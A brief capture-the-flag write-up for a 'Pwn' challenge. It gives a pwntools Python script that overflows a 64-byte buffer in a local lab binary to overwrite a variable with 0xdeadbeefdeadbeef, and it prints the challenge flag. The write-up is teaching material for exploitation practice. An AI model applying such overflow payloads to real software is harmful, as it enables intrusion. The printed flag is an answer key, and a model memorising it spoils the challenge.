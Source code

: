 ## Pwn

<p align="center"><img src="header.png" width="" height=""/></p>

### Solution

```python
from pwn import *

elf = ELF("./level1")
target = elf.process()
# gdb.attach(target, gdbscript="b 21")
print(target.recv())
payload = b"A"*64
payload += p64(0xdeadbeefdeadbeef)
target.sendline(payload)
target.interactive()
```

flag : **flag\{buffer_overflow_to_change_variables!!}**